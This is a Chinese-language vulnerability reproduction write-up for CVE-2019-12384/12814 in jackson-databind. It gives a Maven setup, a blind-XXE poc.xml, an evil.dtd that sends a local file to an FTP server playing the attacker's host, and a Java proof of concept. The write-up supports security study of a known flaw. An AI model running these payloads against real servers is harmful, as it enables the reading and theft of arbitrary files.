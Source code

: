 （CVE-2019-12384）（ CVE-2019-12814）FasterXML jackson-databind 反序列化漏洞
============================================================================

一、漏洞简介
------------

在Jackson 2.x \~ Jackson
2.9.9,当开发人员在应用程序中通过ObjectMapper对象调用enableDefaultTyping方法并且服务端使用了JDOM
1.x 或 JDOM 2.x
依赖库时，攻击者可以发送恶意的JSON消息，读取远程服务器上的任意文件。

### 利用条件

-   开启enableDefaultTyping

-   使用了JDOM 1.x 或 JDOM 2.x 依赖

二、漏洞影响
------------

Jackson 2.x \~2.9.9

三、复现过程
------------

### 环境搭建

创建一个Meaven项目，在pom.xml文件中添加以下依赖：

    <dependencies>
        <dependency>
          <groupId>com.fasterxml.jackson.core</groupId>
          <artifactId>jackson-databind</artifactId>
          <version>2.9.9</version>
        </dependency>

        
        <dependency>
          <groupId>com.fasterxml.jackson.core</groupId>
          <artifactId>jackson-annotations</artifactId>
          <version>2.9.9</version>
        </dependency>

        
        <dependency>
          <groupId>com.fasterxml.jackson.core</groupId>
          <artifactId>jackson-core</artifactId>
          <version>2.9.9</version>
        </dependency>
        
        <dependency>
          <groupId>org.jdom</groupId>
          <artifactId>jdom2</artifactId>
          <version>2.0.6</version>
        </dependency>
      </dependencies>

### 漏洞利用

#### 测试文件

准备一个测试文件，后续进行读取：1.png

#### 编写poc.xml

该XXE属于Blind
XXE，我们构造以下恶意xml代码，它会去调用位于我们的攻击主机上(这里以本地启动的Http服务模拟)的外部dtd文件(不在同一个文件写入要读取的文件主要是为了避免参数实体引用时发生的错误）：

    <?xml version="1.0" ?>
    <!DOCTYPE any[
    <!ENTITY % file SYSTEM "file:///c:/hello.txt">
    <!ENTITY % remote SYSTEM "http://127.0.0.1:4444/evil.dtd">
    %remote;
    %send; 
    ]> 
    <foo></foo>

#### 编写evil.dtd

    <!ENTITY % ppp "<!ENTITY &#x25; send SYSTEM 'ftp://127.0.0.1/%file;'>">
    %ppp;

#### 启动Http服务

使用python开启一个简易的Http服务：2.png

#### 启动FTP服务

使用IPOP V4.1软件搭建一个简易的FTP服务：3.png

#### 执行漏洞POC

执行如下漏洞POC：

    package com.jacksonTest;

    import com.fasterxml.jackson.databind.ObjectMapper;
    import java.io.IOException;

    public class Poc {
        public static void main(String[] args)  {
            ObjectMapper mapper = new ObjectMapper();
            mapper.enableDefaultTyping();
            String payload = "[\"org.jdom2.transform.XSLTransformer\", \"http://127.0.0.1:4444/poc.xml\"]";
            try {
                mapper.readValue(payload, Object.class);
            } catch (IOException e) {
                e.printStackTrace();
            }
        }
    }

成功读取到文件信息（笔者这里尝试过读取win.in文件，但是发现无法读全，该漏洞其实也是一个反序列化+XXE的利用，而且是Blind
XXE，有兴趣的大佬可以再深入研究一波）4.jpg

**整个执行流程如下**：首先加载参数实体remote，此时会远程加载攻击者主机上的外部实体，首先加载name实体的值，即为我们要读取的文件的内容，然后加载ppp参数实体，在ppp实体中又内嵌了send实体，所以
接下来加载send实体，此时就是关键点，即将name实体的值（C:/hello.txt）发送到我们的FTP服务器上(通过GET、POST等方式的查询会在攻击者的服务器日志中留下相关记录）

参考链接
--------

> https://xz.aliyun.com/t/7820\#toc-7
